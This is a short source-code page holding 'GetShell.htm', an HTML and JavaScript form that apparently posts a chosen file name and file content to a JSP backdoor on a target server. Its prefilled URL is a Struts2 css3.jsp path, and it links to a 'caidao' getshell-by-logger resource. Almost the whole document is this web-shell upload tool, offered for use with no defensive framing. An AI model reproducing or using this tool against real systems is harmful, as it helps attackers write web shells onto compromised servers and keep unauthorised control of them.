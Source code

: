 ### GetShell.htm: 

```
<html> 
<head> 
<meta http-equiv="content-type" content="text/html;charset=utf-8"> 
<title>jsp-yzmm</title> 
</head> 
<style> 
.main{width:980px;height:600px;margin:0 auto;} 
.url{width:300px;} 
.fn{width:80px;} 
.content{width:80%;height:60%;} 
</style> 
<script> 
  function upload(){ 
    var url = document.getElementById('url').value, 
      content = document.getElementById('content').value, 
      fileName = document.getElementById('fn').value, 
      form = document.getElementById('fm'); 
    if(url.length == 0){ 
      alert("Url not allowd empty!"); 
      return ; 
    } 
    if(content.length == 0){ 
      alert("Content not allowd empty!"); 
      return ; 
    } 
    if(fileName.length == 0){ 
      alert("FileName not allowd empty!"); 
      return ; 
    } 
    form.action = url; 
    form.submit(); 
  } 
</script> 
<body> 
<div class="main"> 
  <form id="fm" method="post">   
    URL:<input type="text" value="http://localhost/Struts2/css3.jsp" class="url" id="url" />&nbsp;&nbsp; 
    FileName:<input type="text" name="f" value="css.jsp" class="fn" id="fn" />&nbsp;&nbsp; 
    <a href="javascript:upload();">Upload</a><br/> 
    <textarea id="content" class="content" name="t" ></textarea> 
  </form> 
</div> 
</body> 
</html>

```

[http://xsser.me/caidao/getshell-by-logger.jsp](http://xsser.me/caidao/getshell-by-logger.jsp)
